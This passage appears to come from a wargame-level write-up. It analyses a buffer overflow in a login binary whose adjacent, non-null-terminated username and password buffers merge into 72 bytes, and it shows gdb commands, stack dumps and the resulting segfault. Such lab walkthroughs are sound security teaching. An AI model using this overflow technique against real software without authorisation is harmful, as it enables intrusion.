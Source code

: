 At first glance, we can see we have a structure with a username and password buffer and that argv[1] and argv[2] are copied into using the sizeof operator which won't let us copy more into those buffers than is allowed. We also see that they're checking the environment variable LANG to see its value so they know what language with which to greet us in the greetuser() function. 

One thing to notice, though, is that they're not checking to make sure the username and password buffers are null terminated. B eing that they're adjacent in memory, this means that if we put 40 bytes into the username buffer, we can sort of connect it to the password buffer making it one buffer with a max of 72 bytes.

The entire user structure is passed into the greetuser() function meaning that our 72 byte buffer is passed into it.
```
(gdb) run $(python -c 'print "A"*40') $(python -c 'print "B"*32')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /levels/level06 $(python -c 'print "A"*40') $(python -c 'print "B"*32')

Breakpoint 1, 0x080486aa in main ()
1: x/10i $eip
=> 0x80486aa <main+279>:    call   0x804851c <greetuser>
   0x80486af <main+284>:    lea    esp,[ebp-0xc]
   0x80486b2 <main+287>:    pop    ebx
   0x80486b3 <main+288>:    pop    esi
   0x80486b4 <main+289>:    pop    edi
   0x80486b5 <main+290>:    pop    ebp
   0x80486b6 <main+291>:    ret    
   0x80486b7:   nop
   0x80486b8:   nop
   0x80486b9:   nop
(gdb) x/20xw $esp
0xbffffbb0:  0x41414141  0x41414141  0x41414141  0x41414141
0xbffffbc0:  0x41414141  0x41414141  0x41414141  0x41414141
0xbffffbd0:  0x41414141  0x41414141  0x42424242  0x42424242
0xbffffbe0:  0x42424242  0x42424242  0x42424242  0x42424242
0xbffffbf0:  0x42424242  0x42424242  0x00000000  0x00000001
```

We can see right before we call greetuser() that our two buffers have become one large one that is about 72 bytes long. So now if we just let this run maybe we'll get a seg fault.
```
(gdb) c
Continuing.
Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x080486b2 in main ()
1: x/10i $eip
=> 0x80486b2 <main+287>:    pop    ebx
   0x80486b3 <main+288>:    pop    esi
   0x80486b4 <main+289>:    pop    edi
   0x80486b5 <main+290>:    pop    ebp
   0x80486b6 <main+291>:    ret    
   0x80486b7:   nop
   0x80486b8:   nop
   0x80486b9:   nop
   0x80486ba:   nop
   0x80486bb:   nop
(gdb)
```

